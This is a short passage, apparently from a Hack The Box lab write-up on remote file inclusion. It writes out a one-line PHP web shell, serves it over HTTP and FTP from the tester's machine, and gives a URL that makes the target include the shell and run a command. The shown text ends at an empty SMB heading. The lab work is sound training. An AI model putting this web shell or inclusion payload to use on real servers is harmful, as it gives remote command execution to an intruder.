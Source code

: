 ### HTTP

```
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

```
sudo python3 -m http.server <LISTENING_PORT>
```

```
http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id
```

![RFI HTTP Result](/images/htb/file-inclusion/rfi-http-result.png)

### FTP

```
sudo python -m pyftpdlib -p 21
```

I ran into the following issue when trying to use pyftdlib: `/usr/bin/python: No module named pyftpdlib`

```
sudo apt-get install python3-pyftpdlib
```

![RFI FTP Result](/images/htb/file-inclusion/rfi-ftp-result.png)

### SMB

